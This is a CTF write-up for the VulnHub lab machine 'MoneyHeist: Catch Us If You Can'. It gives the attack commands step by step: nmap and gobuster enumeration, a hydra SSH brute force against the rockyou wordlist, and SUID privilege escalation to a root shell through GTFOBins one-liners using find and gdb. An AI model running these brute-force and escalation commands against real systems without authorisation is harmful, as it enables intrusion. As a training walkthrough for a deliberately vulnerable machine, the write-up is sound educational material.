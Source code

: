 ```yaml
---
title: MoneyHeist-Catch Us If You Can - Writeup
author: Elman Alizadeh
date: 2021-04-27 14:10:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, moneyheist]
---
```


Today we will take a look at Vulnhub: Catch Us İf You Can. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-money/1.jpeg" | relative_url }})

## Network scan

 Command: sudo nmap -p- -sV -sC -oN nmap/open 192.168.0.110 — open

![Desktop View]({{ "/assets/img/vuln-money/2.png" | relative_url }})

## Gobuster scan

 Command: gobuster dir -u http://192.168.0.110/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Desktop View]({{ "/assets/img/vuln-money/3.png" | relative_url }})

When we look at the robots extension, we see the image tokyo.jpeg. but he was injured. Let’s download and fix.

![Desktop View]({{ "/assets/img/vuln-money/4.png" | relative_url }})

 Command: wget http://192.168.0.110/robots/tokyo.jpeg

You can find true titles here

[Link](https://en.wikipedia.org/wiki/List_of_file_signatures)

 Command: hexeditor tokyo.jpeg

![Desktop View]({{ "/assets/img/vuln-money/5.png" | relative_url }})

Let’s look at the corrected image.

![Desktop View]({{ "/assets/img/vuln-money/6.png" | relative_url }})

This is a trap.

Let’s look at the gate extension

![Desktop View]({{ "/assets/img/vuln-money/7.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/8.png" | relative_url }})

we see the gate.exe file. let’s download and see

![Desktop View]({{ "/assets/img/vuln-money/9.png" | relative_url }})

Here’s a new extension.

![Desktop View]({{ "/assets/img/vuln-money/10.png" | relative_url }})

When we look at the page, we see a simple page. let’s check the bride extension

 Command: gobuster dir -u http://192.168.0.110/BankOfSp41n -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt

![Desktop View]({{ "/assets/img/vuln-money/11.png" | relative_url }})

When you go to login.php, it is a simple login page. Let’s check a few simple default credentials

![Desktop View]({{ "/assets/img/vuln-money/12.png" | relative_url }})

Let’s look at the source code

![Desktop View]({{ "/assets/img/vuln-money/13.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/14.png" | relative_url }})

And here we find the username and the password, let’s enter.

![Desktop View]({{ "/assets/img/vuln-money/15.png" | relative_url }})

When I looked at the page, I couldn’t find anything to use

I looked at the source code at the end and saw a username here

![Desktop View]({{ "/assets/img/vuln-money/16.png" | relative_url }})

Let’s try to log in with ssh with this name. But first let’s find the password

## Hydra

Command: hydra -l arturo -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.110:55001 -I -t 4

![Desktop View]({{ "/assets/img/vuln-money/17.png" | relative_url }})

## Ssh

![Desktop View]({{ "/assets/img/vuln-money/18.png" | relative_url }})

Command: find / -type f -perm -04000 -ls 2>/dev/null

![Desktop View]({{ "/assets/img/vuln-money/19.png" | relative_url }})

Let’s change the user. We will use it for this

[Gfto](https://gtfobins.github.io/)

Command: find . -exec /bin/sh -p \; -quit

![Desktop View]({{ "/assets/img/vuln-money/20.png" | relative_url }})

Yes we are now denver.

![Desktop View]({{ "/assets/img/vuln-money/1.gif" | relative_url }})

Let’s look at the secret_diary of the Denver folder and get a new extension. let’s check it

![Desktop View]({{ "/assets/img/vuln-money/21.png" | relative_url }})

Let’s use it to decode

[Cryptii](https://cryptii.com/)

![Desktop View]({{ "/assets/img/vuln-money/22.png" | relative_url }})

Find the encrypted text by making different decodings

![Desktop View]({{ "/assets/img/vuln-money/23.png" | relative_url }})

## Nairobi

Command: su nairobi

![Desktop View]({{ "/assets/img/vuln-money/24.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/2.gif" | relative_url }})

## Tokyo

Command: find / -type f -perm -04000 -ls 2>/dev/null

![Desktop View]({{ "/assets/img/vuln-money/25.png" | relative_url }})

Command: gdb -nx -ex ‘python import os; os.execl(“/bin/sh”, “sh”, “-p”)’ -ex quit

![Desktop View]({{ "/assets/img/vuln-money/26.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/3.gif" | relative_url }})

I looked in Tokyo’s folder and saw an text like this.

![Desktop View]({{ "/assets/img/vuln-money/27.png" | relative_url }})

## Root 

If we combine the capital letters of the words, we get the root password.

![Desktop View]({{ "/assets/img/vuln-money/28.png" | relative_url }})

# And now we are the root

![Desktop View]({{ "/assets/img/vuln-money/4.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”

























